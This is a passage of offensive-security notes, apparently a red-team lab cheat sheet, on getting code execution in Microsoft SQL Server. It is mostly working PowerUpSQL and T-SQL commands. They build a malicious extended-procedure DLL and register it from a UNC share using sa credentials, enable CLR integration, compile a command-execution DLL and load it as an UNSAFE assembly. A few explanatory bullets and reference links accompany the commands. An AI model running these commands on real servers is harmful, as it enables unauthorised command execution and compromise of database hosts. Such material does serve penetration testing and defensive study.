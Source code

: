```
Create-SQLFileXpDll -OutFile C:\fileserver\xp_calc.dll -Command "calc.exe" -ExportName xp_calc
Get-SQLQuery -UserName sa -Password pw -Instance instance -Query "sp_addextendedproc 'xp_calc', '\\192.168.15.2\fileserver\xp_calc.dll'"
Get-SQLQuery -UserName sa -Password Password1 -Instance instance -Query "EXEC xp_calc"
```

Listing existing:

```
Get-SQLStoredProcedureXP -Instance instance -Verbose
```

## Custom CLR Assemblies
- CLR (Common Language Runtime) is a run-time environment provided by the .NET framework
- SQL Server CLR integration allows writing stored procedures and other things by importing a DLL.
- CLR integration is off by default
- `sysadmin` privileges are required by-default.
- Create assembly, Alter assembly or DDL_Admin role can also use it.
- Execution takes place with privileges of the service account
- DLL can be loaded from a local path or a UNC path

> https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integrationv

> https://blog.netspi.com/attacking-sql-server-clr-assemblies/

Create DLL:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\labuser\Desktop\cmd_exec.cs
```

Enable CLR:
```
use msdb
GO
-- Enable show advanced options on the server
sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable clr on the server
sp_configure 'clr enabled',1
RECONFIGURE
GO
```

Create DLL:
```
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\labuser\Desktop
```

Import the assembly from file:
```
CREATE ASSEMBLY my_assembly FROM '\\192.168.15.2\fileserver\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
GO
```
